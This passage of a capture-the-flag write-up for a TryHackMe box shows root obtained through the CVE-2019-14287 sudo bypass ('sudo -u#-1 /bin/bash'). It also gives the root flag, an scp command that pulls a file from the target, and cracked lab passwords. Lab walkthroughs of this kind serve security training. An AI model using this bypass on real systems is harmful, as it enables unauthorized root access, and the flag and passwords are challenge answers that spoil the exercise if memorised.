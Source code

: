 - Now, THM is asking for the CVE number for this insecure binary. We can google `(ALL, !root) /bin/bash`, which will lead us to the exploit found on [Exploit-DB](https://www.exploit-db.com/). The correct CVE number is **CVE 2019-14287**. We can simply copy the script and run it on our machine. From the script found on [Exploit-DB](https://www.exploit-db.com/), the only syntax we really need is the following:
```python
sudo -u#-1 + binary

OR 

sudo -u#-1 /bin/bash
```

- Once we throw that in and press enter, we can see that we are now root. All we have to do is `cat /root/root.txt` and we get the following:
```
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

- We have gotten the root flag:
	- `root.txt` - `b53a02f55b57d4439e3341834d70c062`

### Extra
- There is a part of this challenge that isn't directly related to get access and escalating privileges, and that is regarding the `Alien_autopsy.jpg` file in the `/home/james` directory on the target. We can use SCP to get it over with the following:
```
scp james@target-ip:Alien_autopsy.jpg ~/
```

- Once we have this file, we can do some googling and reverse image searching to find an article from Fox News that dubs the incident the Roswell alien autopsy, which is the answer to the question.

## THM Questions
### Enumerate
1. How many open ports?
	1. 3
2. How you redirect yourself to a secret page?
	1. User-agent
3. What is the agent name?
	1. Chris

### Hash Cracking and Brute-Force
1. FTP password
	1. `crystal`
2. Zip file password
	1. `alien`
3. Steg password 
	1. `Area51`
4. Who is the other agent (in full name)?
	1. `James`
5. SSH password
	1. `hackerrules!`
